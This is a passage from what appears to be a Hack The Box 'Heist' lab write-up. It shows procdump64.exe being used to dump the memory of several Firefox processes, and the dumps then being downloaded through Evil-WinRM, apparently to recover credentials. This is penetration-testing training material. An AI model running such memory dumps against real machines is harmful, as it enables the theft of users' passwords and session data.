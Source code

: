 First we need to accept eula on procdump64.exe to use it.

```bash
procdump64.exe -accepteula
```

After accepting eula we can run procdump64.exe on firefox by

```bash
.\procdump64.exe -ma 4120
.\procdump64.exe -ma 6500
.\procdump64.exe -ma 6608
.\procdump64.exe -ma 6724
.\procdump64.exe -ma 7028
```

After dumping all the processes we have these files created

![image.png](/assets/images/Heist_HTB/image%2021.png)

Downloading the dumps to our local machine.

![image.png](/assets/images/Heist_HTB/image%2022.png)

I tried downloading the dumps to my machine but it errors out,

I searched for it online and found that its an Evil-winrm error but downloads our file successfully.
